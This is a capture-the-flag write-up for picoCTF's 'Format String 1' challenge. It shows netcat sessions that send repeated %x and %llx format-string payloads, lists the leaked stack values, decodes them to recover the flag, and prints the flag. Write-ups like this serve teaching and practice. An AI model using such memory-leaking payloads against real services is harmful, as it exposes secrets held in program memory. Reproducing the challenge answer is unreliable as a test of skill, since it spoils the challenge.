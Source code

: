 ```yaml
---
layout: post
title:  "Format String 1"
description: Easy format string vulnerability
date:   2024-08-25
tags: ["Binary Exploitation" "Format String" "Easy"]
category: [CTF, picoCTF]
---
```


# Challenge Info
Patrick and Sponge Bob were really happy with those
orders you made for them, but now they're curious
about the secret menu. Find it, and along the way,
maybe you'll find something else of interest!

Download the binary [here](https://artifacts.picoctf.net/c_mimas/82/format-string-1).

Download the source [here](https://artifacts.picoctf.net/c_mimas/82/format-string-1.c).

Connect with the challenge instance here:
`nc mimas.picoctf.net <port>`

author: Connor Chang

![format string 1](/assets/img/formatstring-1/formatstring1.png)

## Attempts

Upon connecting to the netcat listener, we're prompted: `Give me your order and I'll read it back to you:`

Because of the name of the challenge; "**Format String** 1", we already get a pretty big hint. Just from experience, I know that `%x` can be used in format string vulnerabilities to either dump or navigate memory stacks. Naturally, this is the route I took.

```
~ > nc mimas.picoctf.net 63183                               INT 18s
Give me your order and I'll read it back to you:
%x,%x,%x,%x,%x,%x,%x,%x,%x,%x,%x,%x,%x,%x,%x,%x,%x,%x,%x,%x,%x,%x,%x,%x,%x,%x,%x,%x,%x,%x,%x,%x,%x,%x,%x,%x,%x,%x,%x,%x,%x,%x,%x,%x,%x,%x,%x,%x,%x,%x,%x,%x,%x,%x,%x,%x,%x,%x,%x,%x,%x,%x,%x,%x,%x,%x,%x,%x,%x,%x,%x,%x,%x,%x,%x,%x,%x,%x,%x,%x,%x,%x,%x,%x,%x,%x,%x,%x,
Here's your order: 402118,0,6377ea00,0,a64880,a347834,b4da5590,6356fe60,637944d0,1,b4da5660,0,0,6f636970,6d316e34,33317937,3431665f,64303935,7,637968d8,7,74307250,6c797453,9,637a7de9,63578098,637944d0,0,b4da5670,252c7825,2c78252c,78252c78,252c7825,2c78252c,78252c78,252c7825,2c78252c,78252c78,252c7825,2c78252c,78252c78,252c7825,2c78252c,78252c78,252c7825,2c78252c,78252c78,252c7825,2c78252c,78252c78,252c7825,2c78252c,78252c78,252c7825,2c78252c,78252c78,252c7825,2c78252c,78252c78,252c7825,2c78252c,78252c78,454d4100,6e656c6c,4c564c48,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,
Bye!
```

After pasting this into [Cyberchef](https://gchq.github.io/CyberChef/) with "From Hex" selected, I started to notice what might be a flag.

![possible flag](/assets/img/formatstring-1/possibleflag.png)

## Solution

After inspecting the initial output, I decided to modify my format string to use `%llx` instead of `%x`. The `ll` modifier stands for "long long," which in C is a data type representing a 64-bit integer. By using `%llx`, I ensured that each stack read would capture a full 64-bit value, meaning 16 hexadecimal digits would be printed instead of just 8. This is important because the flag or other useful data might be stored in a location that requires reading all 16 bytes (instead of 8) to be fully captured.

After using this adjustment, with commas `,` to clearly separate each stack, I got a different result:


```
~ > nc mimas.picoctf.net 63183                            INT 1m 53s
Give me your order and I'll read it back to you:
%llx,%llx,%llx,%llx,%llx,%llx,%llx,%llx,%llx,%llx,%llx,%llx,%llx,%llx,%llx,%llx,%llx,%llx,%llx,%llx,%llx,%llx,%llx,%llx,%llx,%llx,%llx,%llx,%llx,%llx,%llx,%llx,%llx,%llx,%llx,%llx,%llx,%llx,%llx,%llx,%llx,%llx,%llx,%llx,%llx,%llx,%llx,%llx,%llx,%llx,%llx,%llx,%llx,%llx,%llx,%llx,%llx,%llx,%llx,%llx,%llx,%llx,%llx,%llx,
Here's your order: 402118,0,7aaeacfeba00,0,1c1f880,a347834,7ffd67ec6cc0,7aaeacddce60,7aaead0014d0,1,7ffd67ec6d90,0,0,7b4654436f636970,355f31346d316e34,3478345f33317937,35365f673431665f,7d313464303935,7,7aaead0038d8,2300000007,206e693374307250,a336c797453,9,7aaead014de9,7aaeacde5098,7aaead0014d0,0,7ffd67ec6da0,6c6c252c786c6c25,252c786c6c252c78,786c6c252c786c6c,6c252c786c6c252c,2c786c6c252c786c,6c6c252c786c6c25,252c786c6c252c78,786c6c252c786c6c,6c252c786c6c252c,2c786c6c252c786c,6c6c252c786c6c25,252c786c6c252c78,786c6c252c786c6c,6c252c786c6c252c,2c786c6c252c786c,6c6c252c786c6c25,252c786c6c252c78,786c6c252c786c6c,6c252c786c6c252c,2c786c6c252c786c,6c6c252c786c6c25,252c786c6c252c78,786c6c252c786c6c,6c252c786c6c252c,2c786c6c252c786c,6c6c252c786c6c25,252c786c6c252c78,786c6c252c786c6c,6c252c786c6c252c,2c786c6c252c786c,6c6c252c786c6c25,252c786c6c252c78,786c6c252c786c6c,6c252c786c6c252c,2c786c6c252c786c,
Bye!
```

I decided to put these hex values through Cyberchef again, and saw what's definitely an encoded flag:

![possible flag](/assets/img/formatstring-1/possibleflag2.png)

After removing the null values, I was left with this:

![jumbled flag](/assets/img/formatstring-1/jumbledflag.png)

From here, the challenge is mostly nonsensical decoding, and it gets really bad (there is a reason it's < 50% positive reviews). I went through it anyways, but I probably won't write how I decoded/solved it, it's not really "hacking" and serves no purpose for this challenge.

flag: `picoCTF{4n1m41_57y13_4x4_f14g_65590d41}`
